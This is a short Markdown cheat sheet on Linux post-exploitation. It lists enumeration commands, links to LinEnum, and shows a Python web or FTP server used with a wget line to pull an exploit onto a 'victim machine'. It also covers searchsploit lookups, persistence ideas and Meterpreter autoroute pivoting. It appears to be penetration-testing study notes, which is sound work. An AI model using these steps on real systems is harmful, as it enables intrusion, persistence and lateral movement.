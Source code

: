 # Linux Post Exploitation


## Enumeration

    uname -a
       
    ps -aux 
    
    
  - [LinEnum](https://github.com/rebootuser/LinEnum)  
  
         <hostshare>/Tools/Exploit/Discovery
          
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)

   
## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
## Exploit

    searchsploit <linux kernel version>
   
    searchsploit <linux version>
    
## Privilege Escalation

[Privilege Escalation Cheatsheet ](https://www.rebootuser.com/?p=1623)

   
 
 ## Maintain persistence

  - Add user
  

  - Metasploit


  - Set a scheduled task
  
  
## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
